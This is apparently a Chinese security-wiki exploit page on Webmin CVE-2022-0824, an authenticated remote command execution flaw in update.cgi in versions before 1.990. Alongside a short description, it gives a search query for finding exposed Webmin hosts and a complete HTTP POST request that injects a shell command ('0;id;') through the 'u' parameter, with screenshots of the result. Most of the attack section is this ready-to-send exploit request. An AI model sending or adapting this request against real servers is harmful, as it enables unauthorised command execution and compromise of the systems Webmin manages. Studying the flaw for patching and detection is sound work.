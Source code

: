# Webmin update.cgi background remote command execution vulnerability CVE-2022-0824

## Vulnerability Description

Webmin is a set of Web-based system management tools for Unix-like operating systems in the Webmin community.

There was a security vulnerability in the version before Webmin 1.990. This vulnerability originated from incorrect access control in the software. Attackers can use this vulnerability to implement remote code execution.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Webmin < 1.990</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="webmin"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827113208771.png)

Send request packet after login

```php
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661516324481-459f62d3-08f5-49e8-961c-42e4e1b7e4db-20220827113227774.png)